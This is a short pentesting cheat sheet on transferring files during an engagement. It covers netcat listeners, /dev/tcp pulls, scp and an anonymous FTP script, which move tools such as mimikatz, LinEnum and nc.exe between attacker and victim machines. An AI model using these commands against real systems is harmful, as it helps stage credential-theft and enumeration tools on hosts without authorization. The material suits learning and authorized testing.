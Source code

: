 ## Netcat&#x20;

### Basic nc

**Connection Initiated by Pentester**

```
# VICTIM TARGET
nc -nlvp 8000 > mimikatz.exe

# ATTACKER MACHINE
nc -nv 10.10.10.132 8000 <mimikatz.exe
```

**Connection Initiated by Victim/TargeT**

```
# ATTACKER MACHINE
nc -nv 10.10.10.32 8000 > mimikatz.exe

# VICTIM
nc -nlvp 8000 <mimikatz.exe

```

### Using /dev/tcp device file

```
#Start listener
nc -lvnp 80 <LinEnum.sh
#Download the file
 cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh
```

## SCP

OpenSSH server can be enabled using this [procedure](https://docs.microsoft.com/en-us/windows-server/administration/openssh/openssh\_install\_firstuse). On older Windows systems, the PuTTY Secure Copy client (pscp.exe) can be used.

```
#Upload
PS> scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
#Download
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## FTP

**Ftp-script.txt**

```
open <IP>
anonymous
anonymous
lcd C:\Temp
get nc.exe
quit

```
